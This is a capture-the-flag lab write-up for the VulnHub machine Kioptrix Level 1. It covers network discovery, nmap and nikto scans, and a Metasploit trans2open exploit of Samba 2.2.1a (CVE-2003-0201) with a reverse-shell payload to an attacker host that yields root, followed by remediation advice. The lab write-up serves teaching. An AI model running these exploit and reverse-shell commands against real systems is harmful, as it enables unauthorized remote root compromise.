




# Kioptrix: Level 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.109 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (x86) |
| **Root Flag** | root shell via Samba exploit |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) |

## Attack Summary

`netdiscover` → `nmap` (Samba 2.2.x detected) → `nikto` → Metasploit `trans2open` (CVE-2003-0201) → root shell

## Methodology

1. Network discovery
2. Port and service enumeration (nmap)
3. Web vulnerability scan (nikto)
4. Samba exploitation via Metasploit
5. Root shell obtained directly (no separate privesc needed)

---

## Step 1: Network Discovery

Find the target on the local network.

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```



---

## Step 2: Port and Service Enumeration

Aggressive nmap scan reveals Samba running on ports 139/445 and Apache on port 80.

```bash
nmap -A 192.168.1.109
```

Key findings:
- Port 22: OpenSSH
- Port 80: Apache/1.3.20 (mod_ssl/2.8.4)
- Port 139/445: Samba 2.2.1a



---

## Step 3: Web Vulnerability Scan

Nikto identifies outdated Apache and potential SSL vulnerabilities, confirming the target is running a very old web stack.

```bash
nikto -h http://192.168.1.109
```



---

## Step 4: Samba Exploitation

Samba 2.2.x is vulnerable to a remote buffer overflow (CVE-2003-0201). The `trans2open` Metasploit module exploits this to gain a direct root shell.

```bash
msfconsole
```

```
use exploit/linux/samba/trans2open
set RHOST 192.168.1.109
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST 192.168.1.107
exploit
```

Expected result: reverse shell with `uid=0(root)`.



---

## Step 5: Root Shell

The exploit delivers a root shell immediately — no privilege escalation required.

```bash
id
# uid=0(root) gid=0(root)
whoami
# root
```

---

## Lessons Learned

1. **Outdated Samba versions** (2.2.x) are trivially exploitable via well-known public exploits — keep SMB services patched or firewalled.
2. **nmap `-A`** quickly reveals software versions; version detection is the first step toward vulnerability mapping.
3. **Nikto** is a fast sanity-check for web servers but misses service-layer vulnerabilities like the Samba overflow.
4. **Some exploits deliver root directly** — not every engagement requires a multi-step privilege escalation chain.

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Samba 2.2.1a (CVE-2003-0201) | Upgrade Samba to a supported version (3.x+) or disable SMB if not needed |
| Apache 1.3.20 / mod_ssl 2.8.4 | Replace with a supported Apache version |
| Old OpenSSH | Upgrade to current stable release |
